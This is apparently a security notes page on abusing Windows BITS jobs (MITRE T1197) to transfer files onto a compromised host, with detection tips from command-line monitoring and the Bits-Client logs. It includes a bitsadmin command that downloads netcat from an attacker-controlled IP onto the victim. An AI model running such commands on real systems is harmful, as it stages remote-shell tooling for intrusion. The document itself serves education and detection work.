 ```yaml
---
description: File upload to the compromised system.
---
```


# BITS Jobs

## Execution

{% code title="attacker@victim" %}
```c
bitsadmin /transfer myjob /download /priority high http://10.0.0.5/nc64.exe c:\temp\nc.exe
```
{% endcode %}

![](../../.gitbook/assets/bits-download.png)

## Observations

Commandline arguments monitoring can help discover bitsadmin usage:

![](../../.gitbook/assets/bits-cmdline.png)

`Application Logs > Microsoft > Windows > Bits-Client > Operational` shows logs related to jobs, which you may want to monitor as well. An example of one of the jobs:

![](../../.gitbook/assets/bits-operational-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1197" %}

